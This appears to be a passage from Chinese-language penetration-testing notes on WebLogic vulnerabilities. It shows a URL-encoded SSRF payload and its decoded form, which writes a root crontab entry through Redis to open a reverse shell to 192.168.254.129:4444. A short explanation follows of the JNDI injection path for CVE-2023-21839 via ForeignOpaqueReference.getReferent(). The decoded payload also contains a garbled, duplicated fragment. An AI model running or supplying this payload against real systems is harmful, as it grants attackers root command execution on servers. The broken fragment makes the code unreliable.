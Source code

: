 ```
operator=http%3a%2f%2f172.21.0.2%3a6379%2ftest%0d%0a%0d%0aset%201%20%22%5cn%5cn%5cn%5cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3e%26%20%2fdev%2ftcp%2f192.168.254.129%2f4444%200%3e%261'%5cn%5cn%5cn%5cn%22%0d%0aconfig%20set%20dir%20%2fetc%2f%0d%0aconfig%20set%20dbfilename%20crontab%0d%0asave%0d%0atcp%252Fip%252F4000%25200%253E%25261%2527%255Cn%255Cn%255Cn%255Cn%2522%250D%250Aconfig%2520set%2520dir%2520%252Fetc%252F%250D%250Aconfig%2520set%2520dbfilename%2520crontab%250D%250Asave%250D%250A&txtSearchname=&txtSearchkey=&rdoSearch=for&txtSearchfor=1&selfor=Business+location&btnSubmit=Search

-------------------------------------------------------------------------
http://172.21.0.2:6379/test



set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/192.168.254.129/4444 0>&1'\n\n\n\n"

config set dir /etc/

config set dbfilename crontab

save

tcp/ip/4000 0>&1'\n\n\n\n"

config set dir /etc/

config set dbfilename crontab

save


```
![](../attaches/Pasted%20image%2020230409234405.png)

## 远程代码执行（CVE-2023-21839）
漏洞的触发点在ForeignOpaqueReference.getReferent()
ForeignOpaqueReference继承自OpaqueReference，前面说过，当远程对象继承自OpaqueReference时，客户端在对该对象进行JNDI查找并获取的时候，服务器端实际上是通过调用远程对象的getReferent()方法来获取该对象的实际引用。所以，如果远程绑定了ForeignOpaqueReference对象，在lookup查询该对象时，就会调用ForeignOpaqueReference.getReferent()，所以这里我们只要控制var4与this.remoteJNDIName就能造成jndi注入。
var4的话，只要this.jndiEnvironment有值，就用this.jndiEnvironment的值对InitialContext进行初始化，this.jndiEnvironment也可以使用反射的方式进行赋值。
